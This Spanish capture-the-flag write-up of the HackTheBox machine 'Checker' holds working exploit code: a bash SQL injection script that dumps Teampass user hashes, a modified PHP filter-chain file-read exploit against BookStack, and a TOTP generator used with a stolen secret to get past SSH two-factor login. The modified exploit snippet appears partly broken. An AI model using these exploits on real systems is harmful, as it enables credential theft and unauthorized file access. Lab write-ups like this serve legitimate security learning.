Que tal mi amigo que estas leyendo en este momento el WriteUp, hoy toca la maquina Checker de HTB el cual es una maquina con Dificultad Difícil , así que si no te sale no te preocupes tomate tu tiempo nadie te persigue (lo chisto es que yo no aplique la regla xd)


# Preparaciones 

Para empezar cosas de rutina, es modificar el /etc/hosts para que pueda resolver la pagina 


# Fase de reconocimiento 

Realizamos el escaneo de puertos disponible que la maquina tiene para ello ocuparemos nmap

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.56 -oG PortsOpen

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
```

Y ahora para saber que servicios están ejecutándose por estos mismos 

```bash 
❯ nmap -sCV -p22,80,8080 10.10.11.56 -oN PortsInfo

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:54:07:41:98:b8:11:b0:78:45:f1:ca:8c:5a:94:2e (ECDSA)
|_  256 8f:2b:f3:22:1e:74:3b:ee:8b:40:17:6c:6c:b1:93:9c (ED25519)
80/tcp   open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 403 Forbidden
8080/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 403 Forbidden
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Bien con esta información podemos saber que el puerto 22 esta ssh para entrar en la maquina y dos servicios http(servicios web de paginas) y de esta manera sabemos a donde apuntar o donde atacar 


## Puerto 80 BookStack

cuando entramos por este puerto tenemos un inicio de sección nada mas y la plataforma de BookStack 



con la siguiente versión : (23.10.2)


El cual es vulnerable a un LFR(Local File Read ) via SSRF (Serve Side Request Forgery) por lo cual ya sabemos donde podemos atacar, pero esto solo funciona si tenemos una cuenta y si eres observador, no podemos registrarnos 

## Puerto 8080 Teampass

Por el puerto 8080 tenemos un gestor de contraseñas llamado Teampass, por desgracia no tenemos como verificar la versión del mismo pero es de código abierto 




## SQLI de Teampass


Realizando una búsqueda rápida por Google, podemos encontrar un vulnerabilidad de SQLI a través de la misma API del Teampass donde el campo de login es vulnerable -> https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612  

```bash 

if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```


como tal la SQLI que emplea es la siguiente 

```sql
"none' UNION SELECT id, '$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq', (url), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
```

la cual nos muestra la credenciales de los usuario que estén registrados en Teampass


Probemos si funciona , para ello debes de dar los permisos de ejecución y pasarle la Url de donde este el Teampass

recuerda instalar jq para que funcione 

```bash
apt install jq
```



Y cuando lo ejecutemos el script, este nos reporta que tiene 2 usuarios validos dentro de Teampass



El tipo de encripta miento es Bycript por ende podemos usar ya sea john para romper las contraseñas 

De las dos contraseñas la unca que john pudo descifrar es la de bob 



con esto podemos entrar al Teampass como el usuario bob, dentro de esta cuenta tenemos las credenciales para entrar al BookStack y una de ssh que ya te adelanto que si son pero, necesitamos  un código de verificación 





# BookStack SSRF -> LFR


Bien como sabemos BookSatck tiene una vulnerabilidad la cual a través de php chains podemos leer archivos de la maquina, en GitHub podemos encontrar el exploit pero 

[GitHub - pwnter/php_filter_chains_oracle_exploit: A CLI to exploit parameters vulnerable to PHP filter chain error based oracle.](https://github.com/pwnter/php_filter_chains_oracle_exploit)

ATENCION DEBEMOS MODIFICARLO para que el pyload lo mande en base64, ya que de otra manera no funcionara, para hacer esto busca el archivo de requestor.py dentro de la ruta `php_filter_chains_oracle_exploit/filters_chain_oracle/core`



Y remplázalo por el siguiente 

```python
import json
import requests
import time
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re
 
"""
Class Requestor, defines all the request logic.
"""
 
 
class Requestor:
    def __init__(self, file_to_leak, target, parameter, data="{}", headers="{}", verb=Verb.POST, in_chain="",
                 proxy=None, time_based_attack=False, delay=0.0, json_input=False, match=False):
        self.file_to_leak = file_to_leak
        self.target = target
        self.parameter = parameter
        self.headers = headers
        self.verb = verb
        self.json_input = json_input
        self.match = match
        print("[*] The following URL is targeted : {}".format(self.target))
        print("[*] The following local file is leaked : {}".format(self.file_to_leak))
        print("[*] Running {} requests".format(self.verb.name))
        if data != "{}":
            print("[*] Additionnal data used : {}".format(data))
        if headers != "{}":
            print("[*] Additionnal headers used : {}".format(headers))
        if in_chain != "":
            print("[*] The following chain will be in each request : {}".format(in_chain))
            in_chain = "|convert.iconv.{}".format(in_chain)
        if match:
            print("[*] The following pattern will be matched for the oracle : {}".format(match))
        self.in_chain = in_chain
        self.data = json.loads(data)
        self.headers = json.loads(headers)
        self.delay = float(delay)
        if proxy:
            self.proxies = {
                'http': f'{proxy}',
                'https': f'{proxy}',
            }
        else:
            self.proxies = None
        self.instantiate_session()
        if time_based_attack:
            self.time_based_attack = self.error_handling_duration()
            print("[+] Error handling duration : {}".format(self.time_based_attack))
        else:
            self.time_based_attack = False
 
    """
    Instantiates a requests session for optimization
    """
 
    def instantiate_session(self):
        self.session = requests.Session()
        self.session.headers.update(self.headers)
        self.session.proxies = self.proxies
        self.session.verify = False
 
    def join(self, *x):
        return '|'.join(x)
 
    """
    Used to see how much time a 500 error takes to calibrate the timing attack
    """
 
    def error_handling_duration(self):
        chain = "convert.base64-encode"
        requ = self.req_with_response(chain)
        self.normal_response_time = requ.elapsed.total_seconds()
        self.blow_up_utf32 = 'convert.iconv.L1.UCS-4'
        self.blow_up_inf = self.join(*[self.blow_up_utf32] * 15)
        chain_triggering_error = f"convert.base64-encode|{self.blow_up_inf}"
        requ = self.req_with_response(chain_triggering_error)
        return requ.elapsed.total_seconds() - self.normal_response_time
 
    """
    Used to parse the option parameter sent by the user
    """
 
    def parse_parameter(self, filter_chain):
        data = {}
        if '[' and ']' in self.parameter:  # Parse array elements
 
            main_parameter = [re.search(r'^(.*?)\[', self.parameter).group(1)]
            sub_parameters = re.findall(r'\[(.*?)\]', self.parameter)
            all_params = main_parameter + sub_parameters
            json_object = {}
            temp = json_object
            for i, element in enumerate(all_params):
                if i == len(all_params) - 1:
                    temp[element] = filter_chain
                else:
                    temp[element] = {}
                    temp = temp[element]
            data = json_object
        else:
            data[self.parameter] = filter_chain
        return merge_dicts(data, self.data)
 
    """
    Returns the response of a request defined with all options
    """
 
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)
 
        filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        merged_data = self.parse_parameter(filter_chain)
 
        ####Add ↓
        import base64
 
        insert_base64 = base64.b64encode(filter_chain.encode('utf-8')).decode('utf-8')
        payload = f""
        merged_data[self.parameter] = payload  # Fixed indentation
 
        #####Add ↑
 
        # Make the request, the verb and data encoding is defined
        try:
            if self.verb == Verb.GET:
                requ = self.session.get(self.target, params=merged_data)
                return requ
            elif self.verb == Verb.PUT:
                if self.json_input:
                    requ = self.session.put(self.target, json=merged_data)
                else:
                    requ = self.session.put(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.DELETE:
                if self.json_input:
                    requ = self.session.delete(self.target, json=merged_data)
                else:
                    requ = self.session.delete(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.POST:
                if self.json_input:
                    requ = self.session.post(self.target, json=merged_data)
                else:
                    requ = self.session.post(self.target, data=merged_data)
                return requ
        except requests.exceptions.ConnectionError:
            print("[-] Could not instantiate a connection")
            exit(1)
        return None
 
    """
    Used to determine if the answer trigged the error based oracle
    TODO : increase the efficiency of the time based oracle
    """
 
    def error_oracle(self, s):
        requ = self.req_with_response(s)
 
        if self.match:
            # DEBUG print("PATT", (self.match in requ.text))
            return self.match in requ.text
 
        if self.time_based_attack:
            # DEBUG print("ELAP", requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01))
            return requ.elapsed.total_seconds() > ((self.time_based_attack / 2) + 0.01)
 
        # DEBUG print("CODE", requ.status_code == 500)
        return requ.status_code == 500
```

Después ejecuta el exploit de la siguiente manera


```bash
python3 filters_chain_oracle_exploit.py --target  "http://checker.htb/ajax/page/20/save-draft" --file /etc/passwd --verb PUT --parameter html --headers '{"X-CSRF-TOKEN":"","Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session="}'
```

Y cambia conforme a tus datos de esta manera 

--target  
Para obtener la url tendrás que crear un nuevo libro en BookStack y dentro de el un nuevo archivo y en este archivo es donde esta la vulnerabilidad.
Siempre que escribas en el archivo este mandara la petición de guardar cambios , dentro de esta petición existe un parámetro llamado html que es vulnerable 




--headers


y con esos cambio lo puedes ejecutar y así apuntar a archivos de la maquina 



Ahora Bien como entramos al servidor si con el usuario de reader nos pide un código de autenticación?

# Reader HTB

Bien como tenemos autenticación de dos factores por shh, existen pocos protocolos de este tipo para y el que esta empleando aquí es del tipo TOTP por Google, esta verificación genera un código valido por solo 30 segundos , y debe de estar alineado con la hora del servidor es decir, con la misma hora tanto tu como el servidor 

Pero para generar un código valido, tenemos que saber la clave secreta que lo genera y esta se encuentra en : 

 `/backup/home_backup/home/reader/.google_authenticator ` 





Ahora bien para generar el código de verificación nos apoyaremos de este script de Python el cual generara el código que será valido por 30 segundos 

```python 
import base64
import hmac
import hashlib
import time
import struct

def get_totp_code(secret_b32):
    """Generates a TOTP code."""
    # Decodificar la clave secreta de Base32 a bytes
    missing_padding = len(secret_b32) % 8
    if missing_padding != 0:
        secret_b32 += '=' * (8 - missing_padding)
    secret_bytes = base64.b32decode(secret_b32.encode('utf-8'))

    # Obtener el tiempo actual en segundos desde la época
    now = int(time.time())

    # Calcular el contador
    time_step = 30
    counter = now // time_step

    # Convertir el contador a bytes (big-endian)
    counter_bytes = struct.pack('>Q', counter)

    # Calcular el HMAC-SHA1
    hmac_digest = hmac.new(secret_bytes, counter_bytes, hashlib.sha1).digest()

    # Truncamiento dinámico
    offset = hmac_digest[19] & 0x0f
    truncated_hash = hmac_digest[offset:offset + 4]

    # Convertir a entero
    code = struct.unpack('>I', truncated_hash)[0] & 0x7fffffff

    # Obtener los últimos 6 dígitos
    return str(code % 1000000).zfill(6)

clave_secreta_b32 = "DVDBRAODLCWF7I2ONA4K5LQLUE" # Aqui la llave secreta 
codigo_totp = get_totp_code(clave_secreta_b32)
print(f"El código TOTP actual es: {codigo_totp}")
```

y ahora si usando ssh conéctate como el usuario reader y la contraseña que esta en el Teampass, y rápidamente ejecuta el script de python para obtener el código de verificación  y así poder acceder a la maquina  




Y así obtenemos la primera Flag que corresponde al usuario reader



Recuerda hacerle tratamiento a la terminal para que puedas tener todas las funcionalidades normales
```bash
export TERM=xterm 
```


# reader -> root


tenemos un script que podemos ejecutar como root en la siguiente ruta 
`/opt/hash-checker/check-leak.sh`

que como lo se?, yo se cosas hermano, no te creas

puedes verlo al listar los permisos de sudo 



Que no sabes C no te preocupes yo tampoco, pero tampoco es difícil o es creo xd (Decia eso sin saber a que me enfrentaba)


Para esta escalada de privilegios tenemos el binario que se llama check-leak.sh el cual podemos ejecutar como root , dentro de este script se ocupa un binario el cual se llama check_leak al cual le haremos ingeniería inversa para sabe que hace  



## check_leak con Ghidra

Ocupando ghidra al momento de pasarle el binario este nos mostrara las funciones que contemplan dentro del binario, en nuestro caso nos interesan 3 funciones 

	- main
	- write_him
	- notify_user




## Flujo de trabajo de check_leak

### Inicio en main:
- Verifica variables de entorno para credenciales de base de datos (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME)
	- 
- Comprueba que se haya proporcionado exactamente un argumento (el nombre de usuario)
